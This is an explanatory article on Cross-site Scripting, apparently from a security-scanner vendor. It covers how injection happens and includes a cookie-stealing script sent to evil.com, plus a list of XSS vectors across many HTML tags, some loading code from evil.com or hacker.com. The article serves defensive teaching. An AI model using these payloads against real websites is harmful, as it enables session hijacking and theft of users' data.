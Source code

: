# Cross-site Scripting (XSS) Attack
Cross-site Scripting (XSS) refers to client-side code injection attack wherein an attacker can execute malicious scripts (also commonly referred to as a malicious payload) into a legitimate website or web application. XSS is amongst the most rampant of web application vulnerabilities and occurs when a web application makes use of unvalidated or unencoded user input within the output it generates.

By leveraging XSS, an attacker does not target a victim directly. Instead, an attacker would exploit a vulnerability within a website or web application that the victim would visit, essentially using the vulnerable website as a vehicle to deliver a malicious script to the victim’s browser.

While XSS can be taken advantage of within VBScript, ActiveX and Flash (although now considered legacy or even obsolete), unquestionably, the most widely abused is JavaScript – primarily because JavaScript is fundamental to most browsing experiences.

How Cross-site Scripting works
In order to run malicious JavaScript code in a victim’s browser, an attacker must first find a way to inject a payload into a web page that the victim visits. Of course, an attacker could use social engineering techniques to convince a user to visit a vulnerable page with an injected JavaScript payload.

In order for an XSS attack to take place the vulnerable website needs to directly include user input in its pages. An attacker can then insert a string that will be used within the web page and treated as code by the victim’s browser.

The following server-side pseudo-code is used to display the most recent comment on a web page.

print "<html>"
print "<h1>Most recent comment</h1>"
print database.latestComment
print "</html>"
The above script is simply printing out the latest comment from a comments database and printing the contents out to an HTML page, assuming that the comment printed out only consists of text.

The above page is vulnerable to XSS because an attacker could submit a comment that contains a malicious payload such as <script>doSomethingEvil();</script>.

Users visiting the web page will get served the following HTML page.

<html>
<h1>Most recent comment</h1>
<script>doSomethingEvil();</script>
</html>
When the page loads in the victim’s browser, the attacker’s malicious script will execute, most often without the user realizing or being able to prevent such an attack.

Important Note — An XSS vulnerability can only exist if the payload (malicious script) that the attacker inserts ultimately get parsed (as HTML in this case) in the victim’s browser
What’s the worst an attacker can do with JavaScript?
The consequences of what an attacker can do with the ability to execute JavaScript on a web page may not immediately stand out, especially since browsers run JavaScript in a very tightly controlled environment and that JavaScript has limited access to the user’s operating system and the user’s files.

However, when considering that JavaScript has access to the following, it’s easier to understand how creative attackers can get with JavaScript.

Malicious JavaScript has access to all the same objects the rest of the web page has, including access to cookies. Cookies are often used to store session tokens, if an attacker can obtain a user’s session cookie, they can impersonate that user.
JavaScript can read and make arbitrary modifications to the browser’s DOM (within the page that JavaScript is running).
JavaScript can use XMLHttpRequest to send HTTP requests with arbitrary content to arbitrary destinations.
JavaScript in modern browsers can leverage HTML5 APIs such as accessing a user’s geolocation, webcam, microphone and even the specific files from the user’s file system. While most of these APIs require user opt-in, XSS in conjunction with some clever social engineering can bring an attacker a long way.
The above, in combination with social engineering, allow attackers to pull off advanced attacks including cookie theft, keylogging, phishing and identity theft. Critically, XSS vulnerabilities provide the perfect ground for attackers to escalate attacks to more serious ones.

“Isn’t Cross-site scripting the user’s problem?”
If an attacker can abuse a XSS vulnerability on a web page to execute arbitrary JavaScript in a visitor’s browser, the security of that website or web application and its users has been compromised — XSS is not the user’s problem, like any other security vulnerability, if it’s affecting your users, it will affect you.

The anatomy of a Cross-site Scripting attack
An XSS attack needs three actors — the website, the victim and the attacker.

In the example below, it shall be assumed that the attacker’s goal is to impersonate the victim by stealing the victim’s cookie. Sending the cookie to a server the attacker controls can be achieved in a variety of ways, one of which is for the attacker to execute the following JavaScript code in the victim’s browser through an XSS vulnerability.

<script>
   window.location=“http://evil.com/?cookie=” + document.cookie
</script>
The figure below illustrates a step-by-step walkthrough of a simple XSS attack.

A typical example of how XSS works

The attacker injects a payload in the website’s database by submitting a vulnerable form with some malicious JavaScript
The victim requests the web page from the website
The website serves the victim’s browser the page with the attacker’s payload as part of the HTML body.
The victim’s browser will execute the malicious script inside the HTML body. In this case it would send the victim’s cookie to the attacker’s server. The attacker now simply needs to extract the victim’s cookie when the HTTP request arrives to the server, after which the attacker can use the victim’s stolen cookie for impersonation.
Some examples of Cross-site Scripting attack vectors
The following is a non-exhaustive list of XSS attack vectors that an attacker could use to compromise the security of a website or web application through an XSS attack. A more extensive list of XSS payload examples is maintained here.

<script> tag

The <script> tag is the most straight-forward XSS payload. A script tag can either reference external JavaScript code, or embed the code within the script tag.


<!-- External script -->
<script src=http://evil.com/xss.js></script>
<!-- Embedded script -->
<script> alert("XSS"); </script>
<body> tag

An XSS payload can be delivered inside <body> tag by using the onload attribute or other more obscure attributes such as the background attribute.

<!-- onload attribute -->
<body onload=alert("XSS")>
<!-- background attribute -->
<body background="javascript:alert("XSS")">
<img> tag

Some browsers will execute JavaScript when found in the <img>.

<!-- <img> tag XSS -->
<img src="javascript:alert("XSS");">
<!--  tag XSS using lesser-known attributes -->
<img dynsrc="javascript:alert('XSS')">
<img lowsrc="javascript:alert('XSS')">
<iframe> tag

The <iframe> tag allows the embedding of another HTML page into the parent page. An IFrame can contain JavaScript, however, it’s important to note that the JavaScript in the iFrame does not have access to the DOM of the parent’s page do to the browser’s Content Security Policy (CSP). However, IFrames are still very effective means of pulling off phising attacks.

<!-- <iframe> tag XSS -->
<iframe src=”http://evil.com/xss.html”>
<input> tag

In some browsers, if the type attribute of the <input> tag is set to image, it can be manipulated to embed a script.

<!-- <input> tag XSS -->
<input type="image" src="javascript:alert('XSS');">
<link> tag

The <link> tag, which is often used to link to external style sheets could contain a script.

<!-- <link> tag XSS -->
<link rel="stylesheet" href="javascript:alert('XSS');">
<table> tag

The background attribute of the table and td tags can be exploited to refer to a script instead of an image.

<!-- <table> tag XSS -->
<table background="javascript:alert('XSS')">
<!-- <td> tag XSS -->
<td background="javascript:alert('XSS')">
<div> tag

The <div> tag, similar to the <table> and <td> tags can also specify a background and therefore embed a script.

<!-- <div> tag XSS -->
<div style="background-image: url(javascript:alert('XSS'))">
<!-- <div> tag XSS -->
<div style="width: expression(alert('XSS'));">
<object> tag

The <object> tag can be used to include in a script from an external site.

<!-- <object> tag XSS -->
<object type="text/x-scriptlet" data="http://hacker.com/xss.html">
Is your website or web application vulnerable to Cross-site Scripting?
XSS vulnerabilities are amongst the most widespread web application vulnerabilities on the Internet. Fortunately, it’s easy to test if your website or web application is vulnerable to XSS and other vulnerabilities by running an automated web vulnerability scan using Acunetix. Download the 14-day free on premise trial, or register to our online service to run a scan against your website or web application.